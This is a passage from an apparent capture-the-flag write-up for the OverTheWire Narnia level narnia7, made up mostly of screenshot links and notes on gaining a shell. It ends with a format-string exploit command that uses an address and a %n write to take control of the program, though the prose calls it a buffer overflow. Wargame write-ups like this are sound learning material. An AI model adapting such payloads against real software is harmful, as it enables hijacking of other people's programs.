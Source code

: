 <img src="./img/Screenshot 2024-10-13 123002.png"></img>
Attempt to run the program with a different crafted input to exploit the buffer overflow and control program execution flow.
<img src="./img/Screenshot 2024-10-13 122829.png"></img>
<img src="./img/Screenshot 2024-10-13 123134.png"></img>
we got a shell in narnia7
Indicates that the exploit was successful, and you have gained shell access to the `narnia7` environment.
Execute the command outside the gdb editor
```bash
exit
```
Exit GDB and run the following command in the terminal:
```bash
./narnia7 $(echo -e "\xf8\xd2\xff\xff")%134517519x%n
```